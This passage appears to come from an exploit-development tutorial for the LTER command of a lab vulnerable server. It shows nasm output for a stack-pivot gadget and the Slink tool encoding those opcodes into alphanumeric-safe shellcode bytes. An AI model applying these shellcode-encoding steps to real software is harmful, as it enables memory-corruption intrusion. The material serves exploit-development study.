![](/assets/img/LTER/15.png)

##### Getting the opcodes for such operation

```term
nasm > PUSH EBX
00000000  53                push ebx
nasm > POP ESP 
00000000  5C                pop esp
nasm > PUSH ESI 
00000000  56                push esi
nasm > RET
00000000  C3                ret 
```

##### For encoding these opcodes through this method, i will use [slink](https://github.com/ihack4falafel/Slink) from [ihack4falafel](https://github.com/ihack4falafel).

```term
root@whitecr0wz:~/Exploit-Dev/LTER# slink
Enter your shellcode: \x53\x5C\x56\xC3
Enter shellcode variable name: pushesi
[+] Shellcode size is divisible by 4
[*] Encoding [c3565c53]..
[+] No bad character found, using default encoder..
pushesi += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
pushesi += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
pushesi += "\x05\x32\x36\x33\x62" ## add  eax, 0x62333632
pushesi += "\x05\x21\x26\x23\x61" ## add  eax, 0x61232621
pushesi += "\x50"                 ## push eax
[*] Shellcode final size: 21 bytes
root@whitecr0wz:~/Exploit-Dev/LTER# 
```
